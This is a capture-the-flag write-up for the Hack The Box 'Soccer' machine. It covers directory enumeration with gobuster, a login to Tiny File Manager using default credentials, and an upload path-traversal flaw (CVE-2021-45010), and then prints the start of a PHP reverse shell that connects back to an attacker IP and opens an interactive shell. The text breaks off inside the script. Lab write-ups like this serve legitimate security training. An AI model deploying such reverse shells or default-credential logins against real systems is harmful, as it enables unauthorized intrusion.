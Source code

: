 # Soccer HTB machine

**A machine with a web service that is created using a web based php file manager that has a path traversal vulnerability in the file upload functionality, and a subdomain, which is vulnerable to blind SQL Injection over websocket.**

After exploring the web page, we can do not find any entry point. Let's use gobuster tool to search for directories and files in the websites:

```
gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirb/big.txt
```

We found a directory named "tiny". Going to "http://soccer.htb/tiny/" will prompt us to a login page created with tiny file manager. Searching about this file manager, we find that the tiny file manager is a web based php file manager:

https://github.com/prasathmani/tinyfilemanager

We can find the default credentials to login, in the gihub page. The username is "admin" and the password is "admin@123".

After logging in, we can search about vulnerabilities of this file manager and we find that it has a path traversal vulnerability in the file upload functionality. This article explains the vulnerability:

https://nvd.nist.gov/vuln/detail/CVE-2021-45010

We can upload a malicious script in the file manager platform. We only have access to the "upload" folder of the "tiny" folder. Go to the following link, after logging in, and upload a reverse shell php script to achieve connection:

http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.31';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {

 $pid = pcntl_fork();
 
 if ($pid == -1) {
  printit("ERROR: Can't fork");
  exit(1);
 }
 
 if ($pid) {
  exit(0);  
 }

 if (posix_setsid() == -1) {
  printit("Error: Can't setsid()");
  exit(1);
 }

 $daemon = 1;
```